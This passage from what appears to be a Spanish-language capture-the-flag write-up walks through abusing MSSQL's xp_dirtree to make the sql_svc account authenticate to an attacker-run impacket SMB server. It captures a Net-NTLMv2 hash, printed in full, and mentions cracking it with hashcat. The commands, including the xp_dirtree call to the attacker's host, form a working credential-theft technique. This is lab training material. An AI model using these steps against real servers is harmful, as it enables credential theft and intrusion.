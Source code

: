 En este punto, lo que realizaremos es intentar abusar del componente `xp_dirtree` para obtener un hash `Net-NTLMv2` del usuario que ejecuta el servicio de `MSSQL.` Básicamente, lo que intentaremos realizar es que el servicio de `MSSQL` se intente autenticar en nuestro servidor `SMB` que montaremos, para así lograr obtener el hash y posteriormente intentar crackearlo.

Desde nuestro equipo montaremos un servidor `SMB` con `impacket` a través del siguiente comando.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```

Desde el servicio de `MSSQL` intentaremos listar el contenido de nuestro recurso que estamos compartiendo.

```bash
SQL (PublicUser  guest@master)> EXEC Master.dbo.xp_dirtree"\\10.10.16.3\x",1,1;
subdirectory   depth   file   
------------   -----   ----   
SQL (PublicUser  guest@master)>
```

Verificamos nuevamente en nuestro servidor `SMB` que hemos logrado obtener un hash `Net-NTLMv2` del usuario que ha intentado autenticarse a nuestro servidor. En este caso, el usuario se trata de `sql_svc`.

```bash
❯ smbserver.py smbFolder $(pwd) -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,55936)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:e88ef89eb51ddb11681649f6078294fe:010100000000000080cbce391483db01e9c1c347e2fa202900000000010010006d006c004300430052006b0066006d00030010006d006c004300430052006b0066006d00020010006500610050004a007000710057007100040010006500610050004a0070007100570071000700080080cbce391483db01060004000200000008003000300000000000000000000000003000008e95df638ff6f53618e3a9748a9c51690f0ea0b3d458d87764b8c66a702fd6500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0033000000000000000000
[*] Closing down connection (10.10.11.202,55936)
[*] Remaining connections []
```

A través de `hashcat` logramos finalmente crackear el hash del usuario mencionado.
